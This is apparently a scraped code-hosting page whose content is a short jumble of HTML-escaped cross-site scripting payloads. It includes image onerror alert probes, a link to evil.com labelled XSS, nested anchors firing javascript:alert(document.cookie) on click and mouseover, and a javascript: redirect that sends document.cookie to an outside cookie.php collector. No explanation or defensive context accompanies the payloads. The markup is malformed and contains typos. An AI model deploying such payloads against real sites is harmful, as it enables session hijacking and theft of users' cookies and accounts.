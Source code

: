 # -lt-img-src-ssx-onerror-alert-40-1-41-gt-
&amp;lt;img src=ssx onerror=alert&amp;#40;1&amp;#41;&amp;gt;/ &lt;a href="http://evil.com">&lt;span class="btn button button--orange button--wide">XSS&lt;/a>&lt;/span>  &lt;h1>holaa||&lt;a href="http://&lt;a href="http://&lt;a href="http://&lt;a href="javascript:alert(documen.cookie)" onmouseover="javascript:alert(document.cookie)">aaagle.com&lt;/a>">aaale.com&lt;/a>">aaagle.com&lt;/a>">gle.com&lt;/a> hhh  &lt;h1>holaa||&lt;a href="http://&lt;a href="http://&lt;a href="http://&lt;a href="javascript:window.location='https://growncheckerworl.com/cookie.php?cookie=document.cookie'" >aaaaaaaaaaaaaaaaaaaaaaaaaagle.com&lt;/a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com&lt;/a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com&lt;/a>">gle.com&lt;/a> hhhk
&lt;img src=ssx onerror=alert&#40;1&#41;&gt;
